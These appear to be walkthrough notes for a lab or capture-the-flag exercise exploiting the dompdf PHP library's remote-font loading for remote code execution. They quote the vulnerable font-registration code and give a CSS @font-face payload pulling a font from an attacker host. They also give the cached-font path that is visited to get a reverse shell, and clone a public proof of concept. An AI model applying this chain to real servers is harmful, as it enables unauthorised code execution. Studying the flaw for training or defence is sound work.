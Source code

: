- GoogleFu
	- `dompdf exploit`
	- The second search option leads us too:
		- [[https://github.com/positive-security/dompdf-rce]]
		- [[https://positive.security/blog/dompdf-rce]]

- The `dompdf` `php` library has a total of `59.2k` dependent repositories, yet didn't acknowledge this exploitable feature after being contacted. So this blog was posted to explain as a POC.
- Here is the vulnerable code:

```php
public function registerFont($style, $remoteFile, $context = null)
{
   $fontname = mb_strtolower($style["family"]);
   $styleString = $this->getType("{$style['weight']} {$style['style']}");

   $fontDir = $this->options->getFontDir();
   $remoteHash = md5($remoteFile);

   $prefix = $fontname . "_" . $styleString;
   $prefix = preg_replace("[\\W]", "_", $prefix);
   $prefix = preg_replace("/[^-_\\w]+/", "", $prefix);

   $localFile = $fontDir . "/" . $prefix . "_" . $remoteHash;
   $localFile .= ".".strtolower(pathinfo(parse_url($remoteFile, PHP_URL_PATH), PATHINFO_EXTENSION));
```

- Basically, there is a variable named `$isRemoteEnabled` that is enabled by default during this version and prior too. This, combined with `dompdf` which allows for the loading of custom fonts through `css` similar to what's displayed below. Also as explained within the blog post:
	- [[https://positive.security/blog/dompdf-rce]]

```css
@font-face {
   font-family:'TestFont';
   src:url('http://attacker.local/test_font.ttf');
   font-weight:'normal';
   font-style:'normal';
 }
```

- Furthermore, by knowing the `fonts` endpoint (from our previous `fuff` fuzzing) and the file structure of the file:
	- `/vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_489219dafeba9112ed42c17f33b10a0b.php`
- After executing the `css` exploit which would in turn upload the above file you then would simply visit the above endpoint to get a reverse-shell.
- Note, `489219dafeba9112ed42c17f33b10a0b` is based off of their POC where they obtain the `phpinfo` versus our future `reverse-shell`.
- I recommend reading up on the blog post it is put together well.

- First let's clone the repository:

```bash
git clone https://github.com/positive-security/dompdf-rce.git
cd exploit
```

